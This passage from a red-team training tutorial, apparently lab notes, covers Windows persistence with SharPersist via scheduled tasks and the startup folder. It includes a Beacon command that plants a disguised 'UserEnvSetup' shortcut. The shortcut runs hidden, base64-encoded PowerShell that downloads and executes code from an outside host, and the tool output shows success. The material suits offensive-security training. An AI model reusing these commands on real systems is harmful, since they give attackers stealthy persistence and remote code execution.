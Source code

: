 **Syntax information:**

* `-t` is the desired persistence technique.
* `-c` is the command to execute.
* `-a` are any arguments for that command.
* `-n` is the name of the task.
* `-m` is to add the task (you can also `remove`, `check` and `list`).
* `-o` is the task frequency.

#### Practice

On the console of Workstation 2, open the Task Scheduler and select _Task Scheduler Library_ in the left-hand menu.  You should see your task appear in the main window. &#x20;

You may of course wait for one hour, or simply highlight the task and click _Run_ in the right-hand _Actions_ menu.  This should spawn another Beacon.

## Startup Folder

Applications, files, and shortcuts all live within a user's startup folder and are launched automatically upon logging in for the first time upon startup.&#x20;

This directory is commonly used to _**bootstrap**_ the user's home environment (setting wallpapers, establishing shortcuts for applications, etc.).

{% code overflow="wrap" %}
```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -f "UserEnvSetup" -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
[*] INFO: File Name: UserEnvSetup
[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\bfarmer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk
[*] INFO: SHA256 Hash of LNK file: B34647F8D8B7CE28C1F0DA3FF444D9B7244C41370B88061472933B2607A169BC
```
{% endcode %}

**Syntax information:**

* `-f` is the filename to save as.

#### Practice

**Use the Workstation 2 console to check the following:**

`C:\Users\bfarmer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\` for the file that was dropped.  To simulate a logoff and logon via Guacamole, right-click the Windows start icon and select _Shut down or sign out > Sign out_.  Guacamole will then give you the options to _reconnect_ or _logout_.  Select _reconnect_ and it will log you back in.
